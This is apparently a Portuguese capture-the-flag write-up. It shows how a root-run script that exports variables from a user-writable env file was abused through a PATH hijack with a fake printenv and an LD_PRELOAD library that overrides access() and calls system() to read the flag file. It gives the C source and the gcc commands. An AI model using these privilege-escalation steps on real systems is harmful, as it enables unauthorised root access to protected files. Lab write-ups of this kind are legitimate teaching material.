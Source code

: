 # Explorando a Modificação de Variáveis de Ambiente

Na nossa análise inicial, começámos por examinar as permissões de todos os diretórios e ficheiros. Após uma investigação minuciosa, descobrimos que na pasta **tmp** tínhamos permissões de escrita, leitura e execução de ficheiros. Com este conhecimento e considerando que não existia nenhum ficheiro pertencente ao utilizador root na pasta **tmp**, tivemos de conceber uma forma de modificar as variáveis de ambiente.

Por fim, percebemos que o ficheiro **env** na pasta home era uma referência para um **env** que existisse na pasta **tmp**. Com esta informação, procedemos à criação de um ficheiro **env** na pasta **tmp**. Este seria utilizado para definir as variáveis de ambiente do utilizador root. Para tal, aproveitámos o facto de o script.sh ser executado constantemente no servidor e de conter a seguinte linha:

```bash
export $(/usr/bin/cat /home/flag_reader/env | /usr/bin/xargs)
```

Assim, bastava-nos aguardar que o script.sh fosse executado novamente para que as variáveis que tínhamos colocado no env fossem aplicadas.

Dado que tínhamos a capacidade de modificar as variáveis de ambiente, a nossa primeira tentativa foi definir **PATH=/tmp:$PATH**. Com a variável PATH modificada, tentámos criar um ficheiro **printenv.o** com base no seguinte código **printenv.c**:

```c
#include <unistd.h>
int main(int argc, char *argv[]) {
	system("cat /flags/flag.txt > /tmp/something.txt");
	return 0;
}
```

Ajustámos também as permissões de todos estes ficheiros usando o comando **chmod 777 "nome_do_ficheiro"** para garantir que tinham permissões de leitura, escrita e execução. Deste modo, quando o script.sh fosse executado e o comando **printenv** fosse invocado, em vez de recorrer ao caminho padrão, iria para o que tínhamos criado na pasta tmp, dado que esta estava no início do PATH do utilizador root, como já referido anteriormente. Infelizmente, esta solução não nos trouxe a flag.

Além desta solução, era também possível redefinir a função **access()** que estava a ser constantemente usada pelo executável **reader** no **script.sh**. Para este processo, era necessário executar os seguintes comandos pela seguinte ordem:

### 1. Criar o ficheiro **p.c**:

```c
#include <unistd.h>
extern int access(const char* path, int amode) {
	system("cat /flags/flag.txt > /tmp/something.txt"); 
	return 0;
}
```

### 2. Colocá-lo no ficheiro **env**:

```bash
echo "LD_PRELOAD=./p.so" > env
```

### 3. Compilar o objeto partilhado:

```bash
gcc -fPIC -g -c p.c
gcc -shared -o p.so p.o -lc
chmod 777 p.c p.o p.so env
```

Esta sequência de passos permitiu-nos redefinir o comportamento da função **access()**, o que nos levou a alcançar o nosso objetivo final.

